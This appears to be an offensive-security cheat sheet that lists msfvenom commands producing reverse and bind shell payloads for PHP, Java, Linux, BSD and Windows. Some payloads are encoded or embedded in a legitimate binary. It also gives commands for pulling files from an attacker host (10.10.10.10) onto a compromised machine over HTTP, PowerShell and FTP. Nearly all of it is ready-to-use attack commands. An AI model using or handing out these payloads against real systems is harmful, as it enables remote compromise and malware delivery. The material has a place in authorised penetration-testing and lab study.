 ````
````

### msfvenom payloads
````
- PHP reverse shell: msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php
- Java WAR reverse shell: msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war
- Linux bind shell: msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai
- Linux FreeBSD reverse shell: msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf
- Linux C reverse shell: msfvenom  -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c
- Windows non staged reverse shell: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe
- Windows Staged (Meterpreter) reverse shell: msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe
- Windows Python reverse shell: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py
- Windows ASP reverse shell: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp
- Windows ASPX reverse shell: msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx
- Windows JavaScript reverse shell with nops: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18
- Windows Powershell reverse shell: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1
- Windows reverse shell excluding bad characters: msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai
- Windows x64 bit reverse shell: msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe
- Windows reverse shell embedded into plink: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
````

## File Transfers

```
HTTP
# In Kali
python -m SimpleHTTPServer 80
# In reverse shell - Linux
wget 10.10.10.10/file
# In reverse shell - Windows
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe','C:\Users\user\Desktop\file.exe')"
```

```
FTP
# In Kali
python -m pyftpdlib -p 21 -w
# In reverse shell
echo open 10.10.10.10 > ftp.txt
echo USER anonymous >> ftp.txt
echo ftp >> ftp.txt 
echo bin >> ftp.txt
echo GET file >> ftp.txt
echo bye >> ftp.txt
# Execute
ftp -v -n -s:ftp.txt
“Name the filename as ‘file’ on your kali machine so that you don’t have to re-write the script multiple names, you can then rename the file on windows.”
```